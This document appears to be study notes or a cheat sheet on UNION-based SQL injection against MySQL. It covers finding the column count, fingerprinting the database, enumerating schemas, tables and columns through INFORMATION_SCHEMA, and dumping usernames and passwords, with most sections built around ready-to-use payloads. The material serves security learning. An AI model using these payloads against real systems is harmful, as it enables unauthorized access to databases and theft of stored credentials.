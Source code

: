 ## Detect the Number of Columns

### Using ORDER BY

We can use `order by <column number>` to sort the results by column, we can increment the column by 1 each time until we get an error or the page doesn't show results meaning this column number doesn't exists:
```sql
' order by 1-- -
```

### Using UNION

We can use the UNION statements with selecting a few columns and getting errors until we hit the right number of columns:
```sql
cn' UNION select 1,2,3-- -
```

## Location of Injection

The page will generally print as only some of the columns and not all of them, so we should see which columns it prints so we can put our injection there.

An example if we know 2 is one of the columns printed:
```sql
cn' UNION select 1,@@version,3,4-- -
```

# Database Enumeration

## MySQL Fingerprinting

If the web server is Apache or Nginx, it's a good guess that the server is running on Linux and the DBMS is likely MySQL. If the server is IIS (Microsoft) the DBMS is likely MSSQL.

Queries to check if we are dealing with MySQL:

|Payload|When to Use|Expected Output|Wrong Output|
|---|---|---|---|
|`SELECT @@version`|When we have full query output|MySQL Version 'i.e. `10.3.22-MariaDB-1ubuntu1`'|In MSSQL it returns MSSQL version. Error with other DBMS.|
|`SELECT POW(1,1)`|When we only have numeric output|`1`|Error with other DBMS|
|`SELECT SLEEP(5)`|Blind/No Output|Delays page response for 5 seconds and returns `0`.|Will not delay response with other DBMS|

## INFORMATION_SCHEMA Database

The INFORMATION_SCEHMA database contains metadata about other databases and tables.

Accessing a database you are not currently in:
```sql
SELECT * FROM <database>.<table>;
```

## SCHEMATA

The table [SCHEMATA](https://dev.mysql.com/doc/refman/8.0/en/information-schema-schemata-table.html) contains information about all databases, the SCHEMA_NAME column contains all the data base names.

Find the names of databases on the server:
```sql
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```

Find which database the web application is running:
```sql
cn' UNION select 1,database(),2,3-- -
```

## Tables

The TABLES table in INFORMATION_SCHEMA contains information about all tables, the TABLE_NAME column stores table names, the TABLE_SCHEMA column points to the database each table belongs to.

Find tables within the dev database:
```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```

## COLUMNS

The [COLUMNS](https://dev.mysql.com/doc/refman/8.0/en/information-schema-columns-table.html) table from the INFORMATION_SCHEMA database contains information about all columns present in the databases, we can use the COLUMN_NAME, TABLE_NAME and TABLE_SCHEMA columns.

Find columns names in a particular table:
```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```

## Data

Dump data from a table in a database:
```sql
cn' UNION select 1, username, password, 4 from <database>.<table>-- -
```